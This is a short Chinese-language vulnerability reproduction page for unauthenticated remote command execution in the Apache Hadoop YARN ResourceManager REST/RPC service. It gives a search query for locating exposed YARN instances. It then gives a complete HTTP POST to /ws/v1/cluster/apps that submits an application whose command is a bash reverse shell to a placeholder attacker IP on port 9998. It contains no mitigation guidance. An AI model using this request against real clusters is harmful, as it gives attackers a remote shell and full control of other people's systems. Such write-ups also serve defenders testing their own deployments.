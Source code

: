 # Apache Hadoop Yarn RPC 远程命令执行漏洞

## 漏洞描述

 Hadoop Yarn RPC未授权访问漏洞存在于Hadoop Yarn中负责资源管理和任务调度的ResourceManager，成因是该组件为用户提供的RPC服务默认情况下无需认证即可访问，

## 漏洞影响

<a-checkbox checked>Apache Hadoop </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-hadoop-YARN"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657361631852-75dabea7-851c-4155-973d-79ebcfbf1fd0.png)

验证请求包

```php
POST /ws/v1/cluster/apps HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 215
Content-Type: application/json

{"application-id": "application_1655112607010_0005", "application-name": "get-shell", "am-container-spec": {"commands": {"command": "/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9998 0>&1"}}, "application-type": "YARN"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657361905195-15771262-fd2e-4c75-ba06-82b1d0ce7aad.png)